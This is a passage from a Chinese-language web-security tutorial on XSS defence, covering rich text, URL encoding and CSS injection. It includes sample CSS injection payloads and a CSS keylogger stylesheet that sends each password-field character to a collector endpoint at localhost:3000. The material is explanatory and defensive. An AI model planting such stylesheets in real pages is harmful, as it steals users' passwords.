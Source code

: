 #### **富文本**

大家都知道，富文本其实就是一段HTML。既然它是一段HTML，那么就存在XSS攻击。而且富文本攻击的防御相对比较麻烦。

#### 在url中

作用范围：将不可信数据作为 URL 参数值时需要对参数进行 URL 编码

编码规则：将参数值进行 encodeURIComponent 编码

```js
  function encodeForURL(str, kwargs){
    return encodeURIComponent(str);
  };

```



#### 在 `CSS` 中输出

在 `CSS` 中或者 `style` 标签或者 `style attribute` 中形成的攻击花样非常多，总体上类似于下面几个例子：

```js
<style>@import url('http:xxxxx')</style>
<style>@import 'http:xxxxx'</style>
<style>li {list-style-image: url('xxxxxx')}</style>
<style>body {binding:url('xxxxxxxxxx')}</style>
<div style='background-image: url(xxxx)'></div>
<div style='width: expression(xxxxx)'></div>
```

要解决 `CSS` 的攻击问题，一方面要严格控制用户将变量输入`style` 标签内，另一方面不要引用未知的 `CSS` 文件，如果一定有用户改变 `CSS` 变量这种需求的话，可以使用 `OWASP ESAPI` 中的 `encodeForCSS()` 函数。

```js
input[type="password"][value$="0"]{ background-image: url("http://localhost:3000/0") }
input[type="password"][value$="1"]{ background-image: url("http://localhost:3000/1") }
input[type="password"][value$="2"]{ background-image: url("http://localhost:3000/2") }
input[type="password"][value$="3"]{ background-image: url("http://localhost:3000/3") }
input[type="password"][value$="4"]{ background-image: url("http://localhost:3000/4") }
input[type="password"][value$="5"]{ background-image: url("http://localhost:3000/5") }
input[type="password"][value$="6"]{ background-image: url("http://localhost:3000/6") }
input[type="password"][value$="7"]{ background-image: url("http://localhost:3000/7") }
input[type="password"][value$="8"]{ background-image: url("http://localhost:3000/8") }
input[type="password"][value$="9"]{ background-image: url("http://localhost:3000/9") }
```

剩下的就不写了，就是将所有键盘能输入的字符都写进去。

`input[type="password"]` 是css选择器，作用是选择密码输入框，`[value$="0"]`表示匹配输入的值是以 0 结尾的。

所以如果你在密码框中输入 0 ，就去请求 `http://localhost:3000/0` 接口，但是浏览器默认情况下是不会将用户输入的值存储在 `value` 属性中，但是有的框架会同步这些值，例如`React`

### XSS攻击防御

chrome浏览器自带防御,可拦截反射性XSS（HTML内容和属性），js和富文本的无法拦截，所以我们必须得自己做一些防御手段。
